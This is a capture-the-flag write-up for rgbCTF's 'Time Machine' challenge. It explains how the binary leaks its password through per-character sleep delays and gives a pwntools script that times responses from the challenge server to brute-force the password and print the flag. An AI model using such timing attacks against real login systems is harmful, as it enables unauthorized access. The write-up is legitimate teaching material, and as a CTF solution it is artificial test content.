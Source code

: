 # Time Machine

Essentially has a shuffled alphabet, and uses `/dev/urandom` to pick 8 random chars from it.

Getting the first char correct causes it to sleep for 1s, the first two caused it to sleep for 2s, etc. Using this, I wrote a bruteforcer that measured response times.

```python
from pwn import *
chars = "UVWXYZAFBCDQRSTGHIJNOPKLEM"
pw = ""
import time
#p = process("./my_time_machine.elf")
p = remote("challenge.rgbsec.xyz", 13373, level='debug')
p.recvuntil(': \n')

while len(pw) < 8:
    for c in chars:
        s = time.time()
        p.sendline((pw + c).ljust(8, 'A'))
        p.recvline(timeout=9)
        e = time.time()
        p.recvline()
        if (e-s) >= len(pw)+1:
            pw += c
            print(pw)
            break
p.clean()
p.sendline(pw)
print(p.clean(timeout=10))
```

## rgbCTF{t1m3\_is-d4ng3r0us\_a7fe798c89123dab}

